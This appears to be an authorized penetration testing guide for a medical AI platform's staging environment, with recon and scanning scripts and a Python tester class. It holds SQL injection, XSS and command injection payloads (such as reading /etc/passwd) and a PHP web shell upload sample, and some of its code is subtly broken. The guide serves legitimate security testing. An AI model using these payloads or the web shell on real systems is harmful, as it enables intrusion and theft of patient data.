

# راهنمای تست نفوذ (Penetration Testing Guide)

## NeuroPredict AI - Penetration Testing Framework

### Version: 1.0.0
### Date: November 2025

---

## فهرست مطالب

- [مقدمه](#مقدمه)
- [متدولوژی](#متدولوژی)
- [فازهای تست نفوذ](#فازهای-تست-نفوذ)
- [ابزارهای تست](#ابزارهای-تست)
- [سناریوهای تست](#سناریوهای-تست)
- [گزارش‌دهی](#گزارش‌دهی)

---

## مقدمه

این راهنما چارچوب جامعی برای انجام تست نفوذ بر روی پلتفرم NeuroPredict AI ارائه می‌دهد.

### اهداف تست نفوذ

1. **شناسایی آسیب‌پذیری‌ها**: یافتن نقاط ضعف امنیتی قبل از مهاجمان
2. **ارزیابی کنترل‌های امنیتی**: تست موثر بودن راهکارهای امنیتی
3. **شبیه‌سازی حملات واقعی**: درک چگونگی بهره‌برداری از آسیب‌پذیری‌ها
4. **بهبود وضعیت امنیتی**: ارائه توصیه‌های عملی برای بهبود

### قوانین مشارکت (Rules of Engagement)

```yaml
scope:
  included:
    - Backend API (*.neuropredict.local/api/*)
    - Frontend Application (*.neuropredict.local)
    - Admin Dashboard (admin.neuropredict.local)
    - Staging Environment Only
  
  excluded:
    - Production Environment (without explicit permission)
    - Third-party services
    - Physical security testing
    - Social engineering (without approval)
    - Denial of Service attacks

timing:
  allowed_hours: "09:00 - 18:00 (UTC)"
  allowed_days: "Monday - Friday"
  blackout_dates: "To be communicated"

notification:
  emergency_contact: "security@neuropredict.ai"
  critical_findings: "Immediate notification required"
  regular_findings: "Include in daily report"

authorization:
  document: "Written authorization required"
  scope_changes: "Requires re-authorization"
  termination: "Can be terminated at any time"
```

---

## متدولوژی

### PTES (Penetration Testing Execution Standard)



### OWASP Testing Guide

Following OWASP Testing Guide v4.2 methodology for web applications.

---

## فازهای تست نفوذ

### Phase 1: Reconnaissance (2-3 days)

#### Passive Information Gathering

```bash
#!/bin/bash
# reconnaissance.sh - Passive information gathering

TARGET="neuropredict.local"

echo "[*] Starting Passive Reconnaissance..."

# WHOIS Information
echo "[+] WHOIS Lookup"
whois $TARGET > reports/whois_$TARGET.txt

# DNS Enumeration
echo "[+] DNS Enumeration"
dig $TARGET ANY > reports/dns_$TARGET.txt
nslookup $TARGET >> reports/dns_$TARGET.txt

# Subdomain Enumeration
echo "[+] Subdomain Enumeration"
sublist3r -d $TARGET -o reports/subdomains_$TARGET.txt

# Certificate Transparency
echo "[+] Certificate Transparency Logs"
curl -s "https://crt.sh/?q=%.$TARGET&output=json" | \
  jq -r '.[].name_value' | sort -u > reports/ct_subdomains_$TARGET.txt

# Search Engine Reconnaissance
echo "[+] Google Dorking"
# Manual Google dorks:
# site:neuropredict.local
# site:neuropredict.local ext:pdf
# site:neuropredict.local inurl:admin
# site:neuropredict.local intitle:"index of"

# Wayback Machine
echo "[+] Historical Data"
curl -s "http://web.archive.org/cdx/search/cdx?url=*.$TARGET&output=json" \
  > reports/wayback_$TARGET.json

# Email Harvesting
echo "[+] Email Harvesting"
theHarvester -d $TARGET -b all -f reports/emails_$TARGET.html

echo "[*] Reconnaissance complete! Check reports/ directory"
```

#### Active Information Gathering

```bash
#!/bin/bash
# active_recon.sh - Active reconnaissance

TARGET="api-staging.neuropredict.local"
TARGET_IP="10.0.0.100"

echo "[*] Starting Active Reconnaissance..."

# Port Scanning
echo "[+] Port Scanning"
nmap -sV -sC -O -A $TARGET_IP -oA reports/nmap_$TARGET

# Detailed Port Scan
echo "[+] Detailed Scan"
nmap -p- -T4 $TARGET_IP -oA reports/nmap_full_$TARGET

# Service Detection
echo "[+] Service Version Detection"
nmap -sV --version-intensity 9 $TARGET_IP -oA reports/nmap_versions_$TARGET

# Web Technology Detection
echo "[+] Technology Stack Detection"
whatweb $TARGET -v > reports/whatweb_$TARGET.txt
wafw00f $TARGET > reports/waf_$TARGET.txt

# SSL/TLS Analysis
echo "[+] SSL/TLS Testing"
sslscan $TARGET > reports/sslscan_$TARGET.txt
testssl.sh $TARGET > reports/testssl_$TARGET.txt

# Directory Enumeration
echo "[+] Directory/File Enumeration"
gobuster dir -u https://$TARGET \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -o reports/gobuster_$TARGET.txt

# API Endpoint Discovery
echo "[+] API Endpoint Discovery"
ffuf -u https://$TARGET/api/FUZZ \
  -w /usr/share/wordlists/api-endpoints.txt \
  -mc 200,201,301,302,403 \
  -o reports/api_endpoints_$TARGET.json

echo "[*] Active reconnaissance complete!"
```

### Phase 2: Vulnerability Analysis (3-4 days)

#### Automated Vulnerability Scanning

```bash
#!/bin/bash
# vulnerability_scan.sh - Automated vulnerability assessment

TARGET="https://api-staging.neuropredict.local"

echo "[*] Starting Vulnerability Scanning..."

# OWASP ZAP Baseline Scan
echo "[+] ZAP Baseline Scan"
docker run -v $(pwd)/reports:/zap/wrk/:rw -t owasp/zap2docker-stable \
  zap-baseline.py -t $TARGET -r zap_baseline_report.html

# ZAP Full Scan (more aggressive)
echo "[+] ZAP Full Scan"
docker run -v $(pwd)/reports:/zap/wrk/:rw -t owasp/zap2docker-stable \
  zap-full-scan.py -t $TARGET -r zap_full_report.html

# Nikto Web Scanner
echo "[+] Nikto Scan"
nikto -h $TARGET -output reports/nikto_report.txt

# SQLMap for SQL Injection
echo "[+] SQL Injection Testing (SQLMap)"
sqlmap -u "$TARGET/api/v1/patients/1" \
  --cookie="session_token=YOUR_TOKEN" \
  --batch --level=3 --risk=2 \
  --output-dir=reports/sqlmap

# Container Vulnerability Scan
echo "[+] Container Image Scanning"
trivy image neuropredict/backend:latest \
  --severity HIGH,CRITICAL \
  --output reports/trivy_backend.txt

trivy image neuropredict/frontend:latest \
  --severity HIGH,CRITICAL \
  --output reports/trivy_frontend.txt

# Dependency Vulnerability Scan
echo "[+] Dependency Scanning"
cd ../backend
safety check --json > ../pentest/reports/safety_backend.json
pip-audit --format json > ../pentest/reports/pip_audit.json

cd ../frontend
npm audit --json > ../pentest/reports/npm_audit_frontend.json

cd ../admin-dashboard
npm audit --json > ../pentest/reports/npm_audit_admin.json

# Code Security Analysis
echo "[+] Static Code Analysis"
cd ../backend
bandit -r . -f json -o ../pentest/reports/bandit_report.json

semgrep --config=auto . --json --output=../pentest/reports/semgrep_report.json

echo "[*] Vulnerability scanning complete!"
```

#### Manual Vulnerability Testing

```python
#!/usr/bin/env python3
# manual_tests.py - Manual vulnerability testing scripts

import requests
import json
from typing import Dict, List

class SecurityTester:
    def __init__(self, base_url: str):
        self.base_url = base_url
        self.session = requests.Session()
        self.results = []
    
    def test_authentication(self):
        """Test authentication vulnerabilities"""
        print("[*] Testing Authentication...")
        
        # Test 1: Weak password policy
        weak_passwords = ["123456", "password", "admin", "test"]
        for pwd in weak_passwords:
            result = self.register_user(f"test_{pwd}@example.com", pwd)
            if result.get("success"):
                self.log_finding("CRITICAL", "Weak password accepted", {
                    "password": pwd,
                    "response": result
                })
        
        # Test 2: Brute force protection
        for i in range(20):
            self.login("admin@example.com", f"wrong_password_{i}")
        # Check if account is locked
        
        # Test 3: Password reset vulnerabilities
        self.test_password_reset()
        
        # Test 4: JWT token security
        self.test_jwt_security()
    
    def test_authorization(self):
        """Test authorization vulnerabilities"""
        print("[*] Testing Authorization...")
        
        # Test 1: Horizontal privilege escalation
        user1_token = self.login("user1@example.com", "password1")
        user2_id = 2
        
        # Try to access user2's data with user1's token
        response = self.session.get(
            f"{self.base_url}/api/v1/patients/{user2_id}",
            headers={"Authorization": f"Bearer {user1_token}"}
        )
        
        if response.status_code == 200:
            self.log_finding("CRITICAL", "Horizontal privilege escalation", {
                "user1_token": user1_token,
                "accessed_user_id": user2_id
            })
        
        # Test 2: Vertical privilege escalation
        self.test_admin_endpoints_access(user1_token)
        
        # Test 3: Direct object reference
        self.test_idor()
    
    def test_injection_attacks(self):
        """Test injection vulnerabilities"""
        print("[*] Testing Injection Attacks...")
        
        # SQL Injection payloads
        sql_payloads = [
            "' OR '1'='1",
            "'; DROP TABLE users--",
            "' UNION SELECT NULL,NULL,NULL--",
            "admin'--",
            "' OR '1'='1' /*"
        ]
        
        for payload in sql_payloads:
            # Test login
            response = self.login(payload, payload)
            if response.get("success"):
                self.log_finding("CRITICAL", "SQL Injection in login", {
                    "payload": payload
                })
            
            # Test search
            response = self.search_patients(payload)
            if "error" not in response:
                self.log_finding("HIGH", "Possible SQL Injection in search", {
                    "payload": payload
                })
        
        # XSS payloads
        xss_payloads = [
            "<script>alert('XSS')</script>",
            "",
            "javascript:alert('XSS')",
            "<svg onload=alert('XSS')>"
        ]
        
        for payload in xss_payloads:
            self.create_patient({"name": payload, "age": 30})
        
        # Command Injection
        cmd_payloads = [
            "; ls -la",
            "| cat /etc/passwd",
            "`whoami`",
            "$(whoami)"
        ]
        
        for payload in cmd_payloads:
            self.test_file_upload(payload)
    
    def test_session_management(self):
        """Test session management"""
        print("[*] Testing Session Management...")
        
        # Test 1: Session fixation
        # Test 2: Session timeout
        # Test 3: Concurrent sessions
        # Test 4: Logout functionality
        pass
    
    def test_api_security(self):
        """Test API-specific vulnerabilities"""
        print("[*] Testing API Security...")
        
        # Test 1: Rate limiting
        for i in range(1000):
            self.session.get(f"{self.base_url}/api/v1/patients")
        
        # Test 2: CORS misconfiguration
        response = self.session.options(
            f"{self.base_url}/api/v1/patients",
            headers={"Origin": "https://evil.com"}
        )
        
        if "evil.com" in response.headers.get("Access-Control-Allow-Origin", ""):
            self.log_finding("HIGH", "CORS misconfiguration")
        
        # Test 3: API versioning bypass
        # Test 4: Mass assignment
        # Test 5: GraphQL introspection (if applicable)
    
    def test_file_upload(self):
        """Test file upload vulnerabilities"""
        print("[*] Testing File Upload...")
        
        # Test malicious file uploads
        files = {
            "shell.php": "<?php system($_GET['cmd']); ?>",
            "shell.jsp": "<%@ page import=\"java.io.*\" %>",
            "../../etc/passwd": "malicious content",
            "file.pdf.php": "<?php phpinfo(); ?>"
        }
        
        for filename, content in files.items():
            # Test upload
            pass
    
    def test_business_logic(self):
        """Test business logic vulnerabilities"""
        print("[*] Testing Business Logic...")
        
        # Test 1: Price manipulation
        # Test 2: Negative quantities
        # Test 3: Race conditions
        # Test 4: Workflow bypasses
        pass
    
    def log_finding(self, severity: str, title: str, details: Dict = None):
        """Log a security finding"""
        finding = {
            "severity": severity,
            "title": title,
            "details": details or {},
            "timestamp": __import__("datetime").datetime.now().isoformat()
        }
        self.results.append(finding)
        print(f"[!] {severity}: {title}")
    
    def generate_report(self):
        """Generate testing report"""
        with open("reports/manual_test_results.json", "w") as f:
            json.dump(self.results, f, indent=2)
        
        print(f"\n[*] Found {len(self.results)} security issues")
        print("[*] Report saved to reports/manual_test_results.json")

# Helper methods
def main():
    tester = SecurityTester("https://api-staging.neuropredict.local")
    
    tester.test_authentication()
    tester.test_authorization()
    tester.test_injection_attacks()
    tester.test_session_management()
    tester.test_api_security()
    tester.test_file_upload()
    tester.test_business_logic()
    
    tester.generate_report()

if __name__ == "__main__":
    main()
```

### Phase 3: Exploitation (2-3 days)

```bash
#!/bin/bash
# exploitation.sh - Controlled exploitation of findings

echo "[*] Starting Exploitation Phase..."
echo "[!] WARNING: Only exploit verified vulnerabilities with authorization"

# Document each exploitation attempt
# Capture evidence (screenshots, logs)
# Demonstrate impact
# Stop before causing damage
```

### Phase 4: Post-Exploitation (1-2 days)

```bash
#!/bin/bash
# post_exploitation.sh - Post-exploitation activities

echo "[*] Post-Exploitation Activities..."

# Privilege escalation attempts
# Lateral movement simulation
# Data access assessment
# Persistence mechanisms
# Cleanup and evidence removal
```

---

## ابزارهای تست

### Essential Tools

```yaml
reconnaissance:
  - nmap: "Network scanning"
  - masscan: "Fast port scanner"
  - sublist3r: "Subdomain enumeration"
  - theHarvester: "Email/subdomain harvesting"
  - amass: "In-depth DNS enumeration"

vulnerability_scanning:
  - OWASP ZAP: "Web application scanner"
  - Burp Suite: "Web security testing"
  - Nikto: "Web server scanner"
  - Nessus: "Vulnerability scanner"
  - OpenVAS: "Open source vulnerability scanner"

exploitation:
  - Metasploit: "Exploitation framework"
  - SQLMap: "SQL injection tool"
  - BeEF: "Browser exploitation"
  - Hydra: "Password cracking"
  - John the Ripper: "Password cracking"

container_security:
  - Trivy: "Container vulnerability scanner"
  - Clair: "Container security"
  - Docker Bench: "Docker security audit"
  - kube-bench: "Kubernetes security"
  - kube-hunter: "Kubernetes penetration testing"

code_analysis:
  - Bandit: "Python security linter"
  - Semgrep: "Static analysis"
  - SonarQube: "Code quality & security"
  - GitLeaks: "Secret detection"

network:
  - Wireshark: "Network protocol analyzer"
  - tcpdump: "Packet analyzer"
  - Ettercap: "Network security"
  - Bettercap: "Network attacks"

reporting:
  - Dradis: "Collaboration and reporting"
  - Serpico: "Penetration testing report tool"
  - Faraday: "Multiuser penetration test IDE"
```

### Tool Installation

```bash
#!/bin/bash
# setup_pentest_tools.sh

echo "[*] Installing Penetration Testing Tools..."

# Update system
sudo apt update && sudo apt upgrade -y

# Install basic tools
sudo apt install -y \
  nmap \
  nikto \
  sqlmap \
  gobuster \
  ffuf \
  whatweb \
  wafw00f \
  sslscan \
  testssl.sh \
  hydra \
  john \
  wireshark \
  tcpdump

# Install Docker-based tools
docker pull owasp/zap2docker-stable
docker pull aquasec/trivy
docker pull docker/docker-bench-security

# Install Python tools
pip3 install \
  bandit \
  safety \
  pip-audit \
  requests \
  beautifulsoup4

# Install Go tools
go install github.com/OJ/gobuster/v3@latest
go install github.com/ffuf/ffuf@latest
go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest

# Install specialized tools
cd /opt
git clone https://github.com/sullo/nikto
git clone https://github.com/sqlmapproject/sqlmap
git clone https://github.com/commixproject/commix

echo "[*] Tool installation complete!"
```

---

## سناریوهای تست

### Scenario 1: External Attacker

```yaml
actor: External attacker with no prior knowledge
goal: Gain unauthorized access to patient data
approach:
  1. Reconnaissance
  2. Identify attack surface
  3. Find and exploit vulnerabilities
  4. Access sensitive data

success_criteria:
  - Unauthorized access to patient records
  - Ability to modify data
  - Privilege escalation to admin
```

### Scenario 2: Malicious Insider

```yaml
actor: Regular user with legitimate account
goal: Access data beyond authorization level
approach:
  1. Explore application with valid credentials
  2. Test authorization controls
  3. Attempt privilege escalation
  4. Access unauthorized resources

success_criteria:
  - Access to other users' data
  - Admin panel access
  - Database access
```

### Scenario 3: API Consumer

```yaml
actor: Third-party API consumer
goal: Extract sensitive information via API
approach:
  1. API reconnaissance
  2. Test rate limiting
  3. Find information disclosure
  4. Test for injection vulnerabilities

success_criteria:
  - Excessive data extraction
  - Bypass rate limits
  - SQL injection via API
```

---

## گزارش‌دهی

### Daily Status Reports

```markdown
# Daily Pentest Report - Day X

## Date: YYYY-MM-DD
## Tester: [Name]

### Activities Completed
- [Activity 1]
- [Activity 2]

### Findings
1. **[Severity]** [Finding Title]
   - Brief description
   - Affected component

### Next Steps
- [Planned activities for next day]

### Blockers
- [Any issues or blockers]
```

### Final Report Structure

See Security Audit Guide for detailed report structure.

---

## Best Practices

### Do's
✅ Get written authorization before starting
✅ Stay within defined scope
✅ Document everything
✅ Communicate critical findings immediately
✅ Respect testing windows
✅ Clean up after testing
✅ Verify findings before reporting

### Don'ts
❌ Never test production without explicit permission
❌ Don't perform DoS attacks
❌ Don't access real patient data
❌ Don't share findings publicly
❌ Don't exceed authorized scope
❌ Don't leave backdoors
❌ Don't cause service disruption

---

## Emergency Procedures

```yaml
critical_finding_discovered:
  1. Stop exploitation immediately
  2. Document the finding
  3. Contact security team
  4. Wait for guidance
  5. Resume only when authorized

service_disruption:
  1. Stop all testing activities
  2. Notify contacts immediately
  3. Provide details of last actions
  4. Assist in recovery if needed
  5. Document incident

unauthorized_access_detected:
  1. Alert security team
  2. Preserve evidence
  3. Do not engage
  4. Document observations
  5. Follow incident response procedures
```

---

## Appendices

### A. Testing Checklist

- [ ] Authorization obtained
- [ ] Scope defined
- [ ] Tools prepared
- [ ] Test environment verified
- [ ] Contacts established
- [ ] Reconnaissance completed
- [ ] Vulnerability scanning done
- [ ] Manual testing performed
- [ ] Exploitation attempted (if authorized)
- [ ] Evidence collected
- [ ] Report drafted
- [ [ Cleanup completed

### B. Payload Library

Location: `./pentest/payloads/`

### C. Scripts & Tools

Location: `./pentest/scripts/`

---

**Document Classification: CONFIDENTIAL**
**For Authorized Personnel Only**

